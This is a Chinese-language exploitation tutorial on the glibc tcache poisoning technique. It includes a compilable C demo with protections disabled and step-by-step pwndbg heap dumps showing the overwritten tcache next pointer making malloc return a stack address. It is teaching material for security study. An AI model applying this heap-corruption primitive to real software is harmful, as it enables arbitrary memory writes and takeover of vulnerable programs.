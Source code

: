 > 参考资料：CTF-Wiki
>
> [https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/tcache_attack-zh/#tcache-poisoning](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/tcache_attack-zh/#tcache-poisoning)
>
> 附件下载：
>
> 链接: [https://pan.baidu.com/s/1qyHpVqCdUzLcqnSZkbnqpQ](https://pan.baidu.com/s/1qyHpVqCdUzLcqnSZkbnqpQ)  密码: 9577
>
> --来自百度网盘超级会员V3的分享
>

# 原理
tcache poisoning的基本原理是覆盖tcache中的next域为目标地址，通过malloc来控制任意地址。

这种攻击方法不需要伪造任何的chunk结构。

# Demo
> 编译命令：gcc -g -fno-stack-protector -z execstack -no-pie -z norelro test.c -o test
>

```c
//gcc -g -fno-stack-protector -z execstack -no-pie -z norelro test.c -o test
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    size_t stack_var;
    printf("定义了一个变量 stack_var，我们想让程序 malloc 到这里 %p.\n", (char *)&stack_var);

    printf("接下来申请两个 chunk\n");
    intptr_t *a = malloc(128);
    printf("chunk a 在: %p\n", a);
    intptr_t *b = malloc(128);
    printf("chunk b 在: %p\n", b);

    printf("free 掉这两个 chunk\n");
    free(a);
    free(b);

    printf("现在 tcache 那个链表是这样的 [ %p -> %p ].\n", b, a);
    printf("我们把 %p 的前 %lu 字节（也就是 fd/next 指针）改成 stack_var 的地址：%p", b, sizeof(intptr_t), &stack_var);
    b[0] = (intptr_t)&stack_var;
    printf("现在 tcache 链表是这样的 [ %p -> %p ].\n", b, &stack_var);

    printf("然后一次 malloc : %p\n", malloc(128));
    printf("现在 tcache 链表是这样的 [ %p ].\n", &stack_var);

    intptr_t *c = malloc(128);
    printf("第二次 malloc: %p\n", c);
    printf("Finish!\n");

    return 0;
}
```

编译之后在代码第23行下断点，然后运行程序，此时程序已经释放了申请的两个chunk，看一下堆内存：

```python
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x601000
Size: 0x251

Free chunk (tcache) | PREV_INUSE
Addr: 0x601250
Size: 0x91
fd: 0x00

Free chunk (tcache) | PREV_INUSE
Addr: 0x6012e0
Size: 0x91
fd: 0x601260

Top chunk | PREV_INUSE
Addr: 0x601370
Size: 0x20c91

pwndbg>
```

```powershell
pwndbg> x/120gx 0x601000
0x601000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x601010:	0x0200000000000000	0x0000000000000000
    	    #heap在tcachebin中的数目
0x601020:	0x0000000000000000	0x0000000000000000
0x601030:	0x0000000000000000	0x0000000000000000
0x601040:	0x0000000000000000	0x0000000000000000
0x601050:	0x0000000000000000	0x0000000000000000
0x601060:	0x0000000000000000	0x0000000000000000
0x601070:	0x0000000000000000	0x0000000000000000
0x601080:	0x0000000000000000	0x00000000006012f0
															#指向chunk2_data
......（省略内容均为空）
0x601250:	0x0000000000000000	0x0000000000000091 #chunk1
0x601260:	0x0000000000000000	0x0000000000000000
......（省略内容均为空）
0x6012e0:	0x0000000000000000	0x0000000000000091 #chunk2
0x6012f0:	0x0000000000601260	0x0000000000000000
					#指向chunk1_data
......（省略内容均为空）
0x601370:	0x0000000000000000	0x0000000000020c91 #top_chunk
......（省略内容均为空）
0x6013b0:	0x0000000000000000	0x0000000000000000
pwndbg>
```

> **<font style="color:#F5222D;">tcachebin的链表指针是指向下一个chunk的fd字段，</font>****<font style="color:#F5222D;">fastbin</font>****<font style="color:#F5222D;">的链表指针是指向下一个chunk的pre_size字段</font>**
>

此时的bin状况：

```powershell
pwndbg> bin
tcachebins
0x90 [  2]: 0x6012f0 —▸ 0x601260 ◂— 0x0
				#chunk2_data    #chunk1_data
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> 
```

接下来就到了Tcache Poisoning攻击方式的核心，修改tcache的next指针：

对代码第26行下断点，然后运行程序：

```powershell
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x601000
Size: 0x251

Allocated chunk | PREV_INUSE
Addr: 0x601250
Size: 0x91

Free chunk (tcache) | PREV_INUSE
Addr: 0x6012e0
Size: 0x91
fd: 0x7fffffffdff0

Top chunk | PREV_INUSE
Addr: 0x601370
Size: 0x20c91

pwndbg> x/120gx 0x601000
0x601000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x601010:	0x0200000000000000	0x0000000000000000
0x601020:	0x0000000000000000	0x0000000000000000
0x601030:	0x0000000000000000	0x0000000000000000
0x601040:	0x0000000000000000	0x0000000000000000
0x601050:	0x0000000000000000	0x0000000000000000
0x601060:	0x0000000000000000	0x0000000000000000
0x601070:	0x0000000000000000	0x0000000000000000
0x601080:	0x0000000000000000	0x00000000006012f0
															#指向chunk2_data
......(省略内容均为空)
0x601250:	0x0000000000000000	0x0000000000000091 #chunk1
......(省略内容均为空)
0x6012e0:	0x0000000000000000	0x0000000000000091 #chunk2
0x6012f0:	0x00007fffffffdff0	0x0000000000000000
					#指向要控制的地址
......(省略内容均为空)
0x601370:	0x0000000000000000	0x0000000000020c91 #top_chunk
......(省略内容均为空)
0x6013b0:	0x0000000000000000	0x0000000000000000
pwndbg> bin
tcachebins
0x90 [  2]: 0x6012f0 —▸ 0x7fffffffdff0 —▸ 0x4007f0 (__libc_csu_init) ◂— ...
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> 
```

最后进行两次malloc之后就会控制想要控制的地址：

```powershell
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x601000
Size: 0x251

Allocated chunk | PREV_INUSE
Addr: 0x601250
Size: 0x91

Allocated chunk | PREV_INUSE
Addr: 0x6012e0
Size: 0x91

Top chunk | PREV_INUSE
Addr: 0x601370
Size: 0x20c91

pwndbg> bin
tcachebins
0x90 [  0]: 0x4007f0 (__libc_csu_init) ◂— ...
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> 
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1606725789302-b49aef2c-c41c-4f8e-9374-c7d120206dcb.png)

> 注：此处调试会出现之前“PWN入门（3-14-1）-劫持__malloc_hook和__free_hook”中的疑难1，详细请转到那篇文章。
>



